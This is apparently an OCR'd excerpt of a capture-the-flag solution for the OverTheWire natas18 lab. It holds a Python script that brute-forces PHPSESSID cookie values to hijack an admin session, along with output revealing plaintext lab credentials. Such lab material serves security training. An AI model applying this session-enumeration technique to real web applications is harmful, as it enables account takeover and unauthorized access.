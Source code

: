```python

    if "You are logged in as a regular user" not in response.text:
        print(response.text)
        break

    count += 1

print("Done!")

# Implementation 2

import requests
import time

auth_header = {
    'Authorization': 'Basic bmF0YXMxODo2T0cxUGJLZFZqeUJscHhnRDRERGJSRzZaTGxDR2dDSg==',
}

url = 'http://natas18.natas.labs.overthewire.org'

for i in range(1, 641):
    print("Trying number %d" % i)
    cookie = {"PHPSESSID": str(i)}
    resp = requests.request(method='POST', url=url, headers=auth_header, cookies=cookie)
    time.sleep(0.1)
    if "You are an admin." in resp.text:
        print(resp.text)
        break
```

```bash
...
PHPSESSID=117
PHPSESSID=118
PHPSESSID=119
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
You are an admin. The credentials for the next level are:<br><pre>Username: natas19
Password: tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

Done!
```
